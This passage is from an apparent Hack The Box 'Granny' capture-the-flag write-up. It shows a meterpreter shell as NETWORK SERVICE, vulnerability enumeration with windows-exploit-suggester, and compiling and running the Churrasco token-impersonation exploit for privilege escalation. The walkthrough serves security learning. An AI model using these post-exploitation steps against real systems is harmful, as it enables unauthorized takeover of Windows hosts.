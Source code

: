 ```
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Interesting, since we are a NT AUTHORITY service I can already suspect we might be able to do some token impersonation. Lets use [windows-exploit-suggester][wes] to see what vulnerabilities this box is susceptible too!

**Victim**
```
meterpreter > shell
Process 4068 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>systeminfo > systeminfo.txt
systeminfo > systeminfo.txt

C:\WINDOWS\Temp>exit
meterpreter > download systeminfo.txt
[*] Downloading: systeminfo.txt -> /root/HTB/granny/loot/systeminfo.txt
[*] Downloaded 1.58 KiB of 1.58 KiB (100.0%): systeminfo.txt -> /root/HTB/granny/loot/systeminfo.txt
[*] download   : systeminfo.txt -> /root/HTB/granny/loot/systeminfo.txt
```

**Kali**
```bash
$ wes --update
$ wes -e ../loot/systeminfo.txt -o lpe.txt
```

Now we can look through some of the results that `wes` returned. Looking through the results that were returned, I see an [exploitdb link][exploit] that talks about token kidnapping (impersonation). Since I know we have the `SeImpersonatePrivilege`, this seems like a good route to check. 

### Setting Up A Visual Studio Build Environment
This part sucked. I had exploit C code that I needed to compile to an executable, but boy was I not prepared for that. I ended up spending a boatload of time getting a Windows VM set up with Visual Studio 2019 installed. Then, when the build kept failing, I learned that to compile programs for Windows Server 2003 (and Windows XP) I needed to use the old Visual Studio 2017 toolset (which can helpfully be installed as an additional component). Finally, after spending many hours debugging, I saw those magic words.

```
--- Build Successful (0 Errors) ---
```

Once I got the exploit compiled, all that was left to do was to upload it to the victim and execute it.

```
meterpreter > shell
Process 3436 created.
Channel 5 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>Churrasco.exe cmd.exe
Churrasco.exe cmd.exe
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 680
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread not impersonating, looking for another thread...
```

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[ippsec]: https://www.youtube.com/watch?v=ZfPVGJGkORQ&t=1s
[wes]: https://github.com/bitsadmin/wesng
[exploit]: https://www.exploit-db.com/exploits/6705